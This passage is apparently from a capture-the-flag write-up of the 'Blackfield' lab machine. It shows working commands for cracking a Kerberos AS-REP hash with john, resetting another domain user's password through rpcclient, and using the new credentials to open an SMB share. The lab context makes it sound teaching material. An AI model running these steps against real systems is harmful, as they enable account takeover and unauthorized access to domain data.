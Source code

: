 We receive a hash for the support user. We also can see that the users audit2020 and svc_backup are still active accounts. Lets use `john` to see if we can crack the hash and receive a password.

```bash
$ sudo john user.hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:38 DONE (2020-07-07 14:54) 0.02623g/s 376048p/s 376048c/s 376048C/s #13Carlyn..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Success, we now have some credentials; the password #00^BlackKnight, most likely for the support user.

We have no luck trying our newly acquired creds on the various services available, but the user we have access to, support, is indicative of where we may have access. We can perform various helpdesk/support functions with RPC, so let's see if we can change the password of one of the other accounts we know about, potentially giving us elevated access.

We'll use `rpcclient` to give this a shot.

```bash
$ rpcclient -U "support" 10.10.10.192
Enter WORKGROUP\support's password:
rpcclient $>
```

Okay, we have RPC access. [This article](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) has excellent information on how to perform a password reset. Let's give it a shot.

```cli
rpcclient $> setuserinfo2 audit2020 23 'hello1234!'
```

The account that we can reset the password successfully for is audit2020. Let's backtrack a little with our new credentials and see what the audit2020 user can access. We'll try enumerating the various SMB shares that we found earlier.

```bash
$ smbclient \\\\10.10.10.192\\forensic -U audit2020%hello1234!
Try "help" to get a list of possible commands.
smb: \>
```

We can access the forensic share. Let's see what we can find.

```bash
> dir
  .                                   D        0  Sun Feb 23 07:03:16 2020
  ..                                  D        0  Sun Feb 23 07:03:16 2020
  commands_output                     D        0  Sun Feb 23 12:14:37 2020
  memory_analysis                     D        0  Thu May 28 15:28:33 2020
  tools                               D        0  Sun Feb 23 07:39:08 2020

                7846143 blocks of size 4096. 3986813 blocks available
```
